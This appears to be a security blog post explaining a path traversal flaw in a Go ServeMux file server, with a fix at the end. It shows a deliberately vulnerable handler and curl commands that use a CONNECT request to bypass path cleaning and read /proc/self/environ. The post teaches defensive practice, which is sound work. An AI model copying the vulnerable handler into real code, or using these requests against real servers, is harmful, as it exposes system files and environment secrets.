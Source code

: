 ```yaml
---
layout: post
title: ServeMux and a path traversal vulnerability
categories: exploitation, websecurity, go
tags: [go, websecurity, pathtraversal, exploitation]
comments: true
---
```


I really love Go language and write almost everything I do in it and it's a topic for other blog posts itself. Here we'll talk about pretty common path traversal vulnerability exploitation.

**TL;DR** Too many people think that `ServeMux` always sanitizes a URL request path when it's not. Well at least not *always*.

# Issue

Consider the following snippet:
```go
package main

import (
	"io/ioutil"
	"log"
	"net/http"
	"path/filepath"
	"strings"
)

const root = "/tmp"

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
		contents, err := ioutil.ReadFile(filename)
		if err != nil {
			w.WriteHeader(http.StatusNotFound)
			return
		}
		w.Write(contents)
	})

	server := &http.Server{
		Addr:    "127.0.0.1:50000",
		Handler: mux,
	}

	log.Fatal(server.ListenAndServe())
}
```


Seems like a basic path traversal for someone who do not write Go and write Go a lot :)

Let's create a file in `/tmp` folder to ensure everything works as expected:
```sh
echo content > /tmp/somefile
curl -v 127.0.0.1:50000/somefile
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /somefile HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:08:46 GMT
< Content-Length: 8
< Content-Type: text/plain; charset=utf-8
< 
content
* Connection #0 to host 127.0.0.1 left intact
```


Seems okay, time to exploit it:
```sh
curl -v --path-as-is 127.0.0.1:50000/somefile/../../etc/hostname
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /something/../../../etc/hostname HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Content-Type: text/html; charset=utf-8
< Location: /etc/hostname
< Date: Wed, 18 Jul 2018 18:07:35 GMT
< Content-Length: 48
< 
<a href="/etc/hostname">Moved Permanently</a>.

* Connection #0 to host 127.0.0.1 left intact
```


Turns out that `ServeMux` canonicalize requested path so it's not *super easy* exploitable, but it still is.

Here goes the `CONNECT` method:
```sh
curl -v -X CONNECT --path-as-is 127.0.0.1:50000/../../proc/self/environ
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> CONNECT /../../proc/self/environ HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:17:55 GMT
< Content-Type: application/octet-stream
< Transfer-Encoding: chunked
< 
...
```

Bingo.


I should note that this is an expected behaviour and [clearly documented](https://golang.org/pkg/net/http/#ServeMux.Handler) in `net/http` package docs:
> The path and host are used unchanged for CONNECT requests.

# Remediation

Use `filepath.FromSlash` accompanied with `path.Clean`:
```diff
diff --git a/main.go b/main.go
index d50e6f3..91e5015 100644
--- a/main.go
+++ b/main.go
@@ -4,6 +4,7 @@ import (
        "io/ioutil"
        "log"
        "net/http"
+       "path"
        "path/filepath"
        "strings"
 )
@@ -13,7 +14,7 @@ const root = "/tmp"
 func main() {
        mux := http.NewServeMux()
        mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
-               filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
+               filename := filepath.Join(root, filepath.FromSlash(path.Clean("/"+strings.Trim(r.URL.Path, "/"))))
                contents, err := ioutil.ReadFile(filename)
                if err != nil {
                        w.WriteHeader(http.StatusNotFound)
```


Also, it's a good practice to limit acceptable request methods.

If you're not able to fix the code - put a vulnerable service behind a reverse proxy like nginx, that do not allow `CONNECT` method request by default.
